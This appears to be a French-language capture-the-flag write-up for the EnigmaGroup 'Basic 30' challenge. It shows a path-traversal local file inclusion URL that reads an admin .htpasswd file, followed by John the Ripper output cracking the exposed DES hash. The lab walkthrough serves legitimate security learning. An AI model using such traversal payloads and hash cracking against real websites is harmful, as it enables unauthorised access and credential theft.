 ## Basic 30

Tip: Local File Inclusion

 Warning: main(pages/$page): failed to open stream: No such file or directory in /home/enigmagroup/public_html/challenges/basics/vm/1/index.php on line 14

FYI, This error message is part of the mission.

Login 

**Solution:**

Références: 

[https://www.wpwhitesecurity.com/securing-wordpress-wp-admin-htaccess/](https://www.wpwhitesecurity.com/securing-wordpress-wp-admin-htaccess/)

[https://httpd.apache.org/docs/2.4/programs/htpasswd.html](https://httpd.apache.org/docs/2.4/programs/htpasswd.html)

[https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)

Le lien 'Login' nous amène sur la page http://challenges.enigmagroup.org/basics/vm/1/admin

Il s'agit d'une page d'authentification de type htaccess. Dans ce cas, les mots de passe se trouvent dans un fichier nommé .htpasswd 

Local file inclusion

http://challenges.enigmagroup.org/basics/vm/1/index.php?page=../admin/.htpasswd

On trouve: 

admin:dXWxIS6i6irN6

On crack le hash avec John

~~~
root@Host-001:~/Bureau# john hash
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 664 candidates buffered for the current salt, minimum 2048 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
***              (admin)
1g 0:00:00:01 DONE 2/3 (2019-09-16 14:30) 0.8064g/s 27496p/s 27496c/s 27496C/s 123456..thebest3
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

## Basic 31
